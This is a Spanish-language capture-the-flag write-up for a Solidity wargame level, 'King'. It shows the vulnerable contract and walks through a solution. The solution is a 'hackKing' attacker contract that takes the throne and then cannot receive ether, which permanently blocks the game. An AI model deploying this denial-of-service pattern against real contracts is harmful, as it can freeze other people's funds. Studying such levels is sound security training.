 # 9-King
## Objetivo:
Este contrato es un juego donde quien aporta más ether pasa a ser el nuevo Rey del contrato. El objetivo es romperlo y que nadie pueda reclamar el "trono".

## Contrato
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

## Análisis del contrato
* Posee la variable King que acepta ether y es del tipo **_address_**
* Posee la variable prize, que es pública y es un entero
* Posee la variable owner que es pública acepta ether y es del tipo **_address_**
* El constructor setea la variable owner,king y a quién deploya el contrato, y la variable prize con el valor con el que se deploya
* La función king() que retorna la variable king
* La función receive() que por defecto es una función para recibir ether. En esta función se valida que cuando se envia ether a esta dirección, el valor enviado sea
mayor al valor actual de la variable prize o que quién envía la transacción sea el owner del contrato. Si cualquiera de estas dos condiciones se cumple, transfiere al 
actual rey el valor enviado en la transacción, asigna al sender como el nuevo rey y asigna el valor enviado como el nuevo prize.

## Solución
Para poder resolver este reto, lo que debemos lograr es que nadie pueda volver a reclamar el "trono". El detalle se encuentra en la línea ```king.transfer(msg.value);```
, utilizando la función transfer() se asume que la transacción va a salir OK ya que con transfer no podemos manejar errores sino que genera una excepción.
Entonces vamos a realizar un nuevo contrato, que reclame el trono por una única vez. Cuando otra dirección quiera reclamar el trono y le envíe eth no va a poder recibirlo
ya que no poseerá ninguna función para hacerlo por lo que el contrato original quedaría por siempre inutilizado.
```Solidity
contract hackKing {
    
    address payable public owner;
    address public king = ADDRESS DE TU INSTANCIA KING;

    constructor() public payable{
        owner = msg.sender;
    }

    function hack() public payable{
        (bool sent, ) = king.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

}
```
Una vez deployado el contrato malicioso en Remix, llamamos a la función hack() y luego validamos que la dirección de nuestro contrato sea el rey.
Si esto es correcto, realizamos el submit de la instancia y listo! Reto completado.
